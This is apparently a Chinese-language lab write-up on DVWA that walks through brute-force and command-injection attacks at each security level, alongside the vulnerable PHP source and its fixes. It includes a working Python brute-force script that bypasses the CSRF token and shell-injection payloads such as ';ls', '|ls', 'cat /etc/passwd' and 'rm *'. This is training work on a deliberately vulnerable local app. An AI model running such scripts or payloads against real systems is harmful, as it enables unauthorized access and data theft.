## DVWA

### 0 简介

- DVWA(Damn Vulnerable Web Application) 是用 PHP + MySQL 编写的一套用于漏洞检测和教学的程序，支持多种数据库，包括了 SQL 注入、XSS 等一些常见的安全漏洞。

- 实验环境：VirtualBox Kali 虚拟机，docker 安装 DVWA 镜像

- 环境搭建

  ```bash
  # 安装 docker 
  sudo apt-get update
  apt-get install docker-ce
  
  # 启动 docker
  service docker start
  
  # 拉取DVWA镜像
  docker pull citizenstig/dvwa
  
  # 运行 dvwa,本地端口为 8081
  docker run -d -p 8081:80 citizenstig/dvwa
  ```


### I   Brute Force

- DVWA Security: Low

  目标：爆破出 admin 的密码 ( password )

  登录界面如下:
  

  浏览器设置代理，BurpSuite 进行相应的配置，查看登录界面提交的请求参数：

  

  请求参数很简单，username、password 是之前表单中填写的信息，Login 是表单下方的 button。返回的 response 仅有提示`Username and/or password incorrect.`。并没有进行登录限制。因此，可以使用 Burp Suite 的 Intruder 模块进行爆破。具体操作如下：

  

  

  攻击类型选用 `sniper` 就足够了，接下来是设置 `payload`:

  

  `load` 是载入字典文件，`add` 是添加手动输入的内容。返回的结果如下( 爆破的速度很慢，因此自己手工添加密码 )：

  

  DVWA 给出了 `php`源代码，简单地解读一下源代码:

  ```php
  <?php
  
  if( isset( $_GET[ 'Login' ] ) ) {
      // Get username
      $user = $_GET[ 'username' ];
  
      // Get password
      $pass = $_GET[ 'password' ];
      $pass = md5( $pass );
  
      // Check the database
      $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
      $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
  
      if( $result && mysql_num_rows( $result ) == 1 ) {
          // Get users details
          $avatar = mysql_result( $result, 0, "avatar" );
  
          // Login successful
          echo "<p>Welcome to the password protected area {$user}</p>";
          echo "";
      }
      else {
          // Login failed
          echo "<pre><br />Username and/or password incorrect.</pre>";
      }
      mysql_close();
  }
  
  ?> 
  ```

  源代码很简单，判断 `login` 字段 => 计算`password` 的 `md5`值 => 拼接`sql`查询数据 => 根据查询结果返回内容。无法防御 CSRF、SQL 注入、Brute Force 等攻击。

- DVWA Security: Medium

  使用 Intruder 相同的方法爆破，能够成功爆破，但是爆破的时间明显的延长。对比 `DVWA Security` 为 `low` 和 `Medium` 的源码，使用 `[+]` 表示源码中增加的部分，发现有以下的不同之处:

  ```php
  <?php
  
  if( isset( $_GET[ 'Login' ] ) ) {
      // Sanitise username input
      $user = $_GET[ 'username' ];
  [+] $user = mysql_real_escape_string( $user );
  
      // Sanitise password input
      $pass = $_GET[ 'password' ];
  [+] $pass = mysql_real_escape_string( $pass );
      $pass = md5( $pass );
  
      // Check the database
      $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
      $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
  
      if( $result && mysql_num_rows( $result ) == 1 ) {
          // Get users details
          $avatar = mysql_result( $result, 0, "avatar" );
  
          // Login successful
          echo "<p>Welcome to the password protected area {$user}</p>";
          echo "";
      }
      else {
          // Login failed
  [+]     sleep( 2 );
          echo "<pre><br />Username and/or password incorrect.</pre>";
      }
  
      mysql_close();
  }
  
  ?> 
  ```

  从以上的代码中发现主要有 3 处变化，主要用到了两个函数：`mysql_real_escape_string` 和 `sleep`。

  - `mysql_real_escape_string()`  <=> [details](https://secure.php.net/manual/en/function.mysql-real-escape-string.php) : 

    - 版本: PHP 4 >= 4.3.0，PHP 5，PHP 5.5.0 已弃用，PHP 7.0.0 已移除。

    - 原型 

      ```php
      mysql_real_escape_string （ string $unescaped_string [， resource $link_identifier= NULL ]）： string
      ```

    - 功能 及 问题: 将反斜杠添加到以下字符 `\x00`，`\ n`，`\ r`，`\`， `'`，`" `和 `\x1a` 前。SQL 注入可能会使用 `'`或`"` ，在之前添加转义符，可以在一定程度上防止 SQL 注入。但是这只是简单的处理，对 SQL 注入攻击并没有特别大的作用。

  - `sleep()` <=> [details](https://secure.php.net/manual/en/function.sleep.php)

    - 原型

      ```
      sleep ( int $seconds ) : int
      ```

    - 返回值 : `Returns zero on success, or FALSE on error.`

    - 功能 及 问题：延长了响应的时间，`sleep(2)` 会增加 2 s 的时间；对于一般的用户可能并不会察觉。对于攻击者，如果使用单线程发送 1000 个请求，会增加 2000 s 的时间，增加了攻击成本。但是最大的问题是如果攻击者使用多线程、异步等方式，等待时间并不会明显地延长。之前使用 BurpSuite 攻击时间会明显延长，是因为 BurpSuite 的设置默认使用单线程，截图如下:

      

  ​		如果要设置线程数，需要购买 BurpSutie。

- DVWA Security: High

  使用 Intruder 攻击失败，简单对比一下源代码:

  ```php
  <?php
  
  if( isset( $_GET[ 'Login' ] ) ) {
      // Check Anti-CSRF token
  [+] checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
  
      // Sanitise username input
      $user = $_GET[ 'username' ];
  [+] $user = stripslashes( $user );
      $user = mysql_real_escape_string( $user );
  
      // Sanitise password input
      $pass = $_GET[ 'password' ];
  [+] $pass = stripslashes( $pass );
      $pass = mysql_real_escape_string( $pass );
      $pass = md5( $pass );
  
      // Check database
      $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
      $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
  
      if( $result && mysql_num_rows( $result ) == 1 ) {
          // Get users details
          $avatar = mysql_result( $result, 0, "avatar" );
  
          // Login successful
          echo "<p>Welcome to the password protected area {$user}</p>";
          echo "";
      }
      else {
          // Login failed
  [+]     sleep( rand( 0, 3 ) );
          echo "<pre><br />Username and/or password incorrect.</pre>";
      }
  
      mysql_close();
  }
  
  // Generate Anti-CSRF token
  [+] generateSessionToken();
  
  ?> 
  ```

  以上代码共有 5 处变化，增加函数 `checkToken`、`stripslashes`、`rand` 和 `generateSessionToken`。

  - `checkToken`: 自定义函数，在文档中没有查到，大概的作用就是解析匹配 Token。

  - `stripslashes` <=> [details](http://php.net/manual/zh/function.stripslashes.php)

  - - 版本: PHP 4、PHP 5、PHP 7

    - 原型

      ```
       stripslashes ( string $str ) : string
      ```

    - 返回值: 去除转义反斜线后的字符串（`\'` 转换为 `'` 等等）。双反斜线（`\\`）被转换为单个反斜线（`\`）

  - `rand` <=> [details](https://secure.php.net/manual/zh/function.rand.php)

    - 版本: PHP 4、PHP 5、PHP 7

    - 原型

      ```
       rand ( int $min , int $max ) : int
      ```

    - 返回值: 返回 [min，max] 之间的一个随机整数。

  - `generateSessionToken`: 自定义函数，返回 `SessionToken`，主要作用是防止CSRF 等攻击。

  **代码逻辑分析**: 第一次登录网站时，由于没有传入 `Login` 参数，只会调用 `generateSessionToken()`函数 ，返回给客户端一个`SessionToken`。在登录时，将生成的 `SessionToken` 作为参数传入，通过自定义的 `checkToken`函数验证用户是否为合法用户，若用户不是合法用户，则返回状态码 302（`BurpSuite` 测试结果），因为`SessionToken` 是随机生成的，攻击者如果事先没有拿到，则无法进行 CSRF 攻击，`BurpSutie` 的 `Burst Force`也是因为 `SessisonToken`的原因攻击失败。

  

    生成的`SessionToken`就是上图中隐藏的 `user_token`。删除 `input`的 `hidded`值，大概就是这么一个效果:

    通过编程实现 Burst Force 攻击，大致思路就是 `访问登录界面` => `抓取user_token值` => `将user_token作为参数传入进行爆破`。攻击代码如下:

  ```python
  import re
  import os
  import asyncio
  import requests
  
  def get_password(path):
      if not os.path.exists(path):
          print("Can't find dict file.")
          exit()
      with open(path) as f:
          for line in f:
              yield line.strip()
  
  
  async def try_login(loop,pwd):
      base = r'http://192.168.89.3:8081/vulnerabilities/brute/index.php'
      r = requests.get(base)
      pattern = "name='user_token' value='(.+)'"
      token = re.findall(pattern, r.text)[0]
      cookies = requests.utils.dict_from_cookiejar(r.cookies)
      added = r'?username=admin&password={password}&Login=Login&user_token={token}'
      url = base + added.format(
          password=pwd,
          token=token)
      future = loop.run_in_executor(None,requests.get,url,cookies)
      r = await future
      print("[+] name:admin\tpasswd:{}\tstatus:{}\tlength:{}".format(pwd,r.status_code,len(r.text)))
  
  
  def main():
      path = r'...'
      loop = asyncio.get_event_loop()
      tasks = (try_login(loop,pwd) for pwd in get_password(path))
      loop.run_until_complete(asyncio.gather(*tasks))
  
  
  if __name__ == '__main__':
      main()
  
  ```


- DVWA Security: Impossible

  因为在 `DVWA Security: High`时 `Burp Suite`的攻击已经失效，因此这里直接分析源代码：

  ```php
  <?php
  
  if( isset( $_POST[ 'Login' ] ) ) {
      // Check Anti-CSRF token
      checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
  
      // Sanitise username input
      $user = $_POST[ 'username' ];
      $user = stripslashes( $user );
      $user = mysql_real_escape_string( $user );
  
      // Sanitise password input
      $pass = $_POST[ 'password' ];
      $pass = stripslashes( $pass );
      $pass = mysql_real_escape_string( $pass );
      $pass = md5( $pass );
  
      // Default values
  [+] $total_failed_login = 3;
  [+] $lockout_time       = 15;
  [+] $account_locked     = false;
  
      // Check the database (Check user information)
  [+] $data = $db->prepare( 'SELECT failed_login, last_login FROM users WHERE user = (:user) LIMIT 1;' );
  [+] $data->bindParam( ':user', $user, PDO::PARAM_STR );
  [+] $data->execute();
  [+] $row = $data->fetch();
  
      // Check to see if the user has been locked out.
  [+] if( ( $data->rowCount() == 1 ) && ( $row[ 'failed_login' ] >= $total_failed_login ) )  {
          // User locked out.  Note, using this method would allow for user enumeration!
          //echo "<pre><br />This account has been locked due to too many incorrect logins.</pre>";
  
          // Calculate when the user would be allowed to login again
  [+]     $last_login = $row[ 'last_login' ];
  [+]     $last_login = strtotime( $last_login );
  [+]     $timeout    = strtotime( "{$last_login} +{$lockout_time} minutes" );
  [+]     $timenow    = strtotime( "now" );
  
          // Check to see if enough time has passed, if it hasn't locked the account
  [+]     if( $timenow > $timeout )
  [+]         $account_locked = true;
  	 }
  
      // Check the database (if username matches the password)
      $data = $db->prepare( 'SELECT * FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
  [+] $data->bindParam( ':user', $user, PDO::PARAM_STR);
  [+] $data->bindParam( ':password', $pass, PDO::PARAM_STR );
  [+] $data->execute();
  [+] $row = $data->fetch();
  
      // If its a valid login...
  [+] if( ( $data->rowCount() == 1 ) && ( $account_locked == false ) ) {
          // Get users details
          $avatar       = $row[ 'avatar' ];
          $failed_login = $row[ 'failed_login' ];
          $last_login   = $row[ 'last_login' ];
  
          // Login successful
          echo "<p>Welcome to the password protected area <em>{$user}</em></p>";
          echo "";
  
          // Had the account been locked out since last login?
  [+]    if( $failed_login >= $total_failed_login ) {
              echo "<p><em>Warning</em>: Someone might of been brute forcing your account.</p>";
  [+]         echo "<p>Number of login attempts: <em>{$failed_login}</em>.<br />Last login attempt was at: <em>${last_login}</em>.</p>";
          }
  
          // Reset bad login count
  [+]     $data = $db->prepare( 'UPDATE users SET failed_login = "0" WHERE user = (:user) LIMIT 1;' );
  [+]     $data->bindParam( ':user', $user, PDO::PARAM_STR );
  [+]     $data->execute();
      }
      else {
          // Login failed
  	    sleep( rand( 2, 4 ) );
  
          // Give the user some feedback
          echo "<pre><br />Username and/or password incorrect.<br /><br/>Alternative, the account has been locked because of too many failed logins.<br />If this is the case, <em>please try again in {$lockout_time} minutes</em>.</pre>";
  
          // Update bad login count
  [+]     $data = $db->prepare( 'UPDATE users SET failed_login = (failed_login + 1) WHERE user = (:user) LIMIT 1;' );
  [+]     $data->bindParam( ':user', $user, PDO::PARAM_STR );
  [+]     $data->execute();
      }
  
      // Set the last login time
  [+] $data = $db->prepare( 'UPDATE users SET last_login = now() WHERE user = (:user) LIMIT 1;' );
  [+] $data->bindParam( ':user', $user, PDO::PARAM_STR );
  [+] $data->execute();
  }
  
  // Generate Anti-CSRF token
  generateSessionToken();
  
  ?> 
  ```

  代码变化的地方太多，这里就不再一一列举，简单地总结一下：

  (1) 增加了 SQL 预编译过程，一般由三个步骤组成：`prepare` => `bindParam`=> `execute`，并不只是简单地字符串拼接，而是先预先确定 SQL 结构，可以有效地防止 SQL 注入，同时减少了相同句型重复编译的次数

  (2) 增加了登录失败后用户锁定功能，极大地提高了攻击成本。同时为用户登录带来一定的不便性。


### II   Command Injection

> #### [Description](https://www.owasp.org/index.php/Command_Injection) 
>
> Command injection is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application. Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Command injection attacks are possible largely due to insufficient input validation.
>
> This attack differs from [Code Injection](https://www.owasp.org/index.php/Code_Injection), in that code injection allows the attacker to add his own code that is then executed by the application. In Command Injection, the attacker extends the default functionality of the application, which execute system commands, without the necessity of injecting code.

- DVWA Security: Low

  大致界面如下：

  

  输入框中输入 `baidu.com;ls`；尝试 ping 百度并且列举当前目录下的文件，BurpSuite 拦截请求，结果如图:

  

  

    因为虚拟机的网络用的是 `host-only`，且没有配置 DNS 服务器。`ping` 的结果没有显示，如果填入 `8.8.8.8;ls`,返回的结果如下:

  

    Windows 下的 `ping` 不加参数默认是发送 4 个`ping` 包；Linux 下一直发送，需要 `Ctrl + c`手动中止，当然也可以使用参数 `[-c count]` 指定发送数量。

  上图中除了执行了 ping 指令，同时也执行了附加的 `;ls` 指令。当然也可以尝试其他的指令（ 简单地尝试了一下 `ls /`、`rm * `、`cat /etc/passwd `、`sudo`、`ifconfig`、`uname -a`等，发现权限不够，无法删除文件，甚至不能访问某些文件夹，但是本机的 IP 、本机系统信息、`/etc/passwd`还是可以获得的......当然还可以使用其他的一些符号达到注入的目的，比如:

  `&`、`&&`、`|`、`||`等，举一个例子：

  ```bash
  # 将ifconfig返回的信息写入同目录下 1.txt 文件中
  ping 8.8.8.8`ifconfig > 1.txt`
  
  # 查看以上指令的执行结果
  ping ;cat 1.txt
  ```

  因为 DVWA 中没有修改的权限，因此直接在 KALI 的终端中模拟操作，截图如下:

  

  查看一下源代码:

  ```php
  <?php
  
  if( isset( $_POST[ 'Submit' ]  ) ) {
      // Get input
      $target = $_REQUEST[ 'ip' ];
  
      // Determine OS and execute the ping command.
      if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
          // Windows
          $cmd = shell_exec( 'ping  ' . $target );
      }
      else {
          // *nix
          $cmd = shell_exec( 'ping  -c 4 ' . $target );
      }
  
      // Feedback for the end user
      echo "<pre>{$cmd}</pre>";
  }
  
  ?> 
  ```

  主要函数 `php_uname`、`stristr`、`shell_exec`，具体解释:

  - `php_uname` <=> [details](https://secure.php.net/manual/zh/function.php-uname.php) 

    - 版本: PHP 4 >= 4.0.2, PHP 5, PHP 7

    - 原型（`mode = 's'`返回操作系统的名称）

      ```
       php_uname ([ string $mode = "a" ] ) : string
      ```

  - `stristr` <=> [details]()

    - 版本: PHP 4, PHP 5, PHP 7

    - 原型

      ```
       stristr ( string $haystack , mixed $needle [, bool $before_needle = FALSE ] ) : string
      ```

    - 功能：返回 `haystack` 字符串从 `needle` 第一次出现的位置开始到结尾的字符串。

  - `shell_exec` <=> [detais](https://secure.php.net/manual/zh/function.shell-exec.php)

    - 版本：PHP 4, PHP 5, PHP 7

    - 原型

      ```
       shell_exec ( string $cmd ) : string
      ```

    - 返回值:当进程执行过程中发生错误，或者进程不产生输出的情况下，都会返回 **NULL**，所以，使用本函数无法通过返回值检测进程是否成功执行。如果需要检查进程执行的退出码，请使用 [exec()](https://php.net/manual/zh/function.exec.php) 函数。

    - 权限问题：尝试通过 Command Injection 指令 `;ps -ef|grep php`，没有返回结果。可能是进程在在执行时发生错误。

    源代码很简单，大致逻辑：`判断OS系统`=> `执行对应的 ping 指令`。

     

- DVWA Security: Medium

  这里直接以 `ls` 注入为例，直接写出实验结果，不再逐一截图

  ```
  8.8.8.8;ls							# 无输出		
  8.8.8.8||ls							# (1)ping => (2)ls
  8.8.8.8|ls							# ls
  8.8.8.8&&ls							# ping
  8.8.8.8&ls							# (1)ls => (2)ping
  ```

  (1)(2) 表示输出顺序，上述结果中，只有`8.8.8.8;ls` 无输出，对于剩余的实验结果进行解释。因为实验涉及到逻辑运算，因此首先查看 `ping 8.8.8.8` 指令的返回值：

  

  显然，`ping 8.8.8.8` 的返回值为 `NULL`，接下来解释上述指令的执行结果:

  - `8.8.8.8||ls` 首先执行 `ping` 指令，返回结果为 `False`，因为 `||` 运算将会继续执行下一条指令。
  - `8.8.8.8|ls` 同上，返回结果为 `False`。`ping`指令的结果并未打印，而是通过管道符将结果作为 `ls`指令的输入，也就是直接执行了 `ls`指令。
  - `8.8.8.8&&ls` 同上，返回结果为 `False`并打印指令结果。同时由于短路效应，`ls`指令并不执行。
  - `8.8.8.8&ls` 同上，`&` 将 `ping` 指令以作业的形式放入后台，先执行 `ls` 指令，之后再执行 `ping`指令。

  **i.e.** 2、3、5 三条指令都成功地执行了 `ls` 指令，注入成功；第 4 条指令无法验证是短路效应还是因为过滤等操作引起的注入失败；第 1 条指令注入失败。查看源代码验证猜想:

  ```php
  <?php
  
  if( isset( $_POST[ 'Submit' ]  ) ) {
      // Get input
      $target = $_REQUEST[ 'ip' ];
  
      // Set blacklist
  [+] $substitutions = array(
  [+]     '&&' => '',
  [+]     ';'  => '',
  [+] );
  
      // Remove any of the charactars in the array (blacklist).
  [+]  $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
  
      // Determine OS and execute the ping command.
      if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
          // Windows
          $cmd = shell_exec( 'ping  ' . $target );
      }
      else {
          // *nix
          $cmd = shell_exec( 'ping  -c 4 ' . $target );
      }
  
      // Feedback for the end user
      echo "<pre>{$cmd}</pre>";
  }
  
  ?> 
  ```

  **[+]** 标注表示经过了修改。引入了函数`str_replace`

  - `str_replace` <=> [details](http://php.net/manual/zh/function.str-replace.php)

  - - 版本：PHP 4, PHP 5, PHP 7

    - 原型

      ```
       str_replace ( mixed $search , mixed $replace , mixed $subject [, int &$count ] ) : mixed
      ```

    - 返回值：该函数返回一个字符串或者数组。该字符串或数组是将 `subject` 中全部的 `search` 都被 `replace` 替换之后的结果。

  上述代码其实就是增加了`&&` 、`;` => `NULL`的替换。更具上面的结果，显然无法防止 Command Injection攻击。

- DVWA Security: High

  继续用以上注入成功的指令进行测试:

  ```
  8.8.8.8||ls							# 无输出
  8.8.8.8|ls							# ls
  8.8.8.8&ls							# 无输出
  ```

  上面的测试用例中只有 `8.8.8.8|ls` 能够成功注入，查看源代码:

  ```php
  <?php
  
  if( isset( $_POST[ 'Submit' ]  ) ) {
      // Get input
  [+] $target = trim($_REQUEST[ 'ip' ]);
  
      // Set blacklist
      $substitutions = array(
  [+]     '&'  => '',
  	    ';'  => '',
  [+]     '| ' => '',
  [+]     '-'  => '',
  [+]     '$'  => '',
  [+]     '('  => '',
  [+]     ')'  => '',
  [+]     '`'  => '',
  [+]     '||' => '',
      );
  
      // Remove any of the charactars in the array (blacklist).
      $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
  
      // Determine OS and execute the ping command.
      if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
          // Windows
          $cmd = shell_exec( 'ping  ' . $target );
      }
      else {
          // *nix
          $cmd = shell_exec( 'ping  -c 4 ' . $target );
      }
  
      // Feedback for the end user
      echo "<pre>{$cmd}</pre>";
  }
  
  ?> 
  ```

  上述的源代码中只是增加了替换黑名单而已，同时增加了`trim` 函数的使用:

  - `trim` <=> [details](http://php.net/manual/zh/function.trim.php)

    - 版本: PHP 4, PHP 5, PHP 7

    - 原型

      ```
       trim ( string $str [, string $character_mask = " \t\n\r\0\x0B" ] ) : string
      ```

